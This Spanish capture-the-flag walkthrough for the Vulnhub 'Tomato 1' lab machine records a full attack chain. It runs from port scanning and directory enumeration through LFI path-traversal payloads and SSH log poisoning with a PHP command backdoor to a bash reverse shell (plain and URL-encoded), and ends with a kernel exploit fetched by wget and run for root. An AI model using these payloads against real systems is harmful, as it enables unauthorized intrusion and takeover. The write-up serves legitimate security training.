 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=300&height=80&lines=TOMATO_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/tomato-1,557/

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![1](https://user-images.githubusercontent.com/75953873/174927688-71985557-4e9d-4790-acac-a8b1da611f48.png)

IP host: `192.168.1.10`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.10
```
![2](https://user-images.githubusercontent.com/75953873/174929092-202e91f9-f6d3-428b-a8f9-a952095f67f8.png)

Puertos abiertos: [21,80,2211,8888]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,80,2211,8888 -A 192.168.1.10
```
![3](https://user-images.githubusercontent.com/75953873/174929490-44875da3-9b11-4e39-ba9d-0d7be8d85aac.png)

Servidor corriendo: **HTTP Apache**

O.S: Linux (**Ubuntu**)

URL del servidor: `http://192.168.1.10`

![4](https://user-images.githubusercontent.com/75953873/174928906-0bf0a1e9-d580-4d8f-ae94-0c0bbb3a73b6.png)

En el puerto `8888` se encuentra corriendo el servidor Nginx (`http:192.168.1.10:8888`).

![5](https://user-images.githubusercontent.com/75953873/174929899-11ad2340-d883-4fff-8eb2-d68a7dd8b67d.png)

- *Paso 4:* Enumerar archivos y directorios con Dirb. 
```
dirb http://192.168.1.10 /usr/share/dirb/wordlists/common.txt
```
![6](https://user-images.githubusercontent.com/75953873/174931398-0e9f0007-7245-408a-b4d1-d89c6f3e30ae.png)

Directorio: `http://192.168.1.10/antibot_image/`

Al inspeccionar el código del archivo `info.php`, indica en un comentario que es posible subir una imagen con el método GET.
```
curl http://192.168.1.10/antibot_image/antibots/info.php
```
![7](https://user-images.githubusercontent.com/75953873/174932206-434978d3-3417-4eb4-bd3f-cbce7b934c87.png)

- *Paso 5:* Búsqueda de vulnerabilidad LFI (Inclusión de archivos locales).

Herramienta Tester: https://github.com/kostas-pa/LFITester

LFI Payloads: https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt

```
python3 LFITester.py -L payloads.txt
```
![9](https://user-images.githubusercontent.com/75953873/174938168-ec6ee35f-6eaf-4d05-937a-ada4e7db7e84.png)

URL: 
```
Opción 1) http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../etc/passwd
Opción 2) http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log
```

**/etc/passwd**

![8_](https://user-images.githubusercontent.com/75953873/174938823-970ad267-3267-4bbe-9f97-d256d4f5b2e2.png)

**/var/log/auth.log**

![10](https://user-images.githubusercontent.com/75953873/174939217-162ae75c-1412-48dd-98ab-142100bf6e95.png)

- *Paso 6:* Envenenar registros de Apache a través de SSH creando una backdoor por el puerto 2211.
```
ssh '<?php system($_GET['cmd']); ?>'@192.168.1.10 -p 2211
```
![11](https://user-images.githubusercontent.com/75953873/175163279-0d24f94a-7f18-41a2-a627-580aa8e1b0b2.png)

- *Paso 7:* Configurar proxy y capturar solicitud GET con BurpSuite.

Configuración de Firefox **>** Configuración de redes **>** Configuración de proxy manual

HTTP Proxy: `127.0.0.1`

Port: `8080`

![12](https://user-images.githubusercontent.com/75953873/175163339-db1853d5-b77c-47cb-86b5-0fa8e6e5fb28.png)

Acceder a la URL: `http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log&cmd=`

BurpSuite capturará la solicitud GET y a la misma se le agregará comandos extras para acceder al interior de la máquina con una reverse shell:
```
http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log&cmd=bash -c 'bash -i >& /dev/tcp/192.168.1.9/4444 0>&1'
```
![13](https://user-images.githubusercontent.com/75953873/175164908-c3716f51-9f43-4ad5-8f65-7b411f54495e.png)

Antes de obtener un reverse shell, es preciso codificar los comandos extras. Convert selection **>** URL **>** URL-encode all characters
```
antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log&cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%39%2f%34%34%34%34%20%30%3e%26%31%27
```
![14](https://user-images.githubusercontent.com/75953873/175165089-399a559f-9aa8-46d8-a638-c03704825c1f.png)

Después, ponemos a netcat en escucha por el puerto `4444` para obtener una reverse shell:
```
nc -lvnp 4444
```
Seleccionar la URL completa desde el proxy de Burp y hacer clic en **Forward** para enviar la petición GET maliciosa:

![15](https://user-images.githubusercontent.com/75953873/175165583-a851e458-fda4-45c4-a019-d66d6b688cde.png)

- *Paso 8:* Escalar privilegios: buscar exploit y descargarlo con SearchSploit.

Versión del kernel: `4.4.0-21-generic`
```
searchsploit -m 40616
```
![16](https://user-images.githubusercontent.com/75953873/175180708-73e2c433-0d55-4b51-bba3-0c091d47cd9e.png)

Abrir un servidor local en el puerto 80 con Python3:
```
python3 -m http.server 5555
```
![17](https://user-images.githubusercontent.com/75953873/175180828-acafd971-a17b-49cc-9458-6fdaaab0fb88.png)

Descargar exploit en el directorio `/tmp` y compilar código:
```
cd /tmp
wget http://192.168.1.9:5555/40616.c
gcc-5 40616.c -o get_root -pthread
```
![18](https://user-images.githubusercontent.com/75953873/175181097-cbd94b3e-17ef-47bc-b402-2df1125275b5.png)

Ejecutar exploit y capturar la flag del directorio `/root`:
```
./get_root
cd /root
cat proof.txt
```
![19](https://user-images.githubusercontent.com/75953873/175181278-eb17c6e9-93ff-497c-9498-43b9bc9c33a5.png)

**FLAG:** Sun_CSR_TEAM_TOMATO_JS_0232xx23
